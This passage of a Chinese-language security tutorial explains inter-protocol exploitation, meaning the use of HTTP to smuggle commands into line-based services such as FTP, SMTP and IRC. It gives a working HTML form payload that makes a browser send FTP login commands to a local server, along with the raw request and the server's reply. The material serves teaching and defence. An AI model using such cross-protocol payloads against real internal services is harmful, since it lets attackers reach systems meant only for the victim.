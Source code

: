 [15]https://github.com/ring04h/papers/blob/master/build_your_ssrf_exp_autowork--20160711.pdf

### 跨协议通信技术利用

跨协议通信技术(Inter-Protocol Communication)是指两种不同的协议可以交换指令和数据的技术。其中一种称为目标协议，另外一种称为载体协议。目标协议就是我们最终想要通信的协议，而载体协议是用来封装我们最后想要发送的指令和数据。

这种类型的通信想要完成有两个必要条件:

- 目标协议必须容错性比较好.这是因为我们是通过一个载体协议来传输指令的,这样就很可能会掺杂一些目标协议无法识别的指令。
- 载体协议能够封装目标协议的指令.即使目标协议无法识别所有封装过的指令,也必须能够识别最终要的部分指令。

如何利用跨协议通信

跨协议漏洞利用(Inter-Protocol Expoitation)是通过一种协议去攻击运行另外一种协议的服务。

大家最关注的还是载体协议是HTTP的时候,因为这样攻击者就可以通过人人都有浏览器来发起攻击了。这种类型的攻击可以让攻击者访问到本来只有受害者才有权访问的资源和服务(比如内网不对外开放的服务)。这个过程中受害者充当了一个傀儡的角色，接收并执行了有风险的代码.

一些用换行来作为命令分隔符的协议,比如SMTP,POP3,IRC和FTP都会受这种攻击的影响.这是因为当目标协议处理多行数据的时候是一行一行单独处理的.而这些协议的容错性都比较好.这就使得这些协议忽略掉识别不了的行,只执行可以识别的代码.

为了更好的理解跨协议通信,我们来看一个简单的例子.

示例一:通过HTTP连接FTP服务器 #

通过浏览器连接ftp服务器非常简单,一个HTTP POST请求就可以了.下面是一个连接本机的FTP服务器的代码.
```
<form method='POST' action='http://localhost:21' enctype='multipart/form-data'>
<input type='hidden' name='a' value='user secforce'>
<input type='hidden' name='a' value='pass secforce'>
<input type='submit'>
</form>
```
假设这个FTP用户密码存在的话,提交这个表单就可以登录到FTP服务器了.是不是很简单.

具体发送的POST请求数据包如下:
```
POST / HTTP/1.1
Host: 127.0.0.1:21
User-Agent: Mozilla/5.0 (X11; Debian; Linux x86_32; rv:16.0) Gecko/20110007 Firefox/20.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-gb,en;q=0.5
Accept-Encoding: gzip, deflate
Proxy-Connection: keep-alive
Content-Type: multipart/form-data; boundary=---------------------------63079936718166855021600323653
Content-Length: 304
 
-----------------------------63079936718166855021600323653
Content-Disposition: form-data; name="a"
 
user secforce
-----------------------------63079936718166855021600323653
Content-Disposition: form-data; name="a"
 
pass secforce
-----------------------------63079936718166855021600323653--
```
我们接收到返回数据如下.所有的50X错误对应服务器无法识别的HTTP行.FTP服务器忽略了他们,执行了它可以识别的命令.
```
220--------- Welcome to Pure-FTPd [privsep] [TLS] ----------
220-Local time is now 12:41. Server port: 21.
220-This is a private system - No anonymous login
220 You will be disconnected after 15 minutes of inactivity.
530 You aren't logged in
500 ?
500 ?
500 ?
```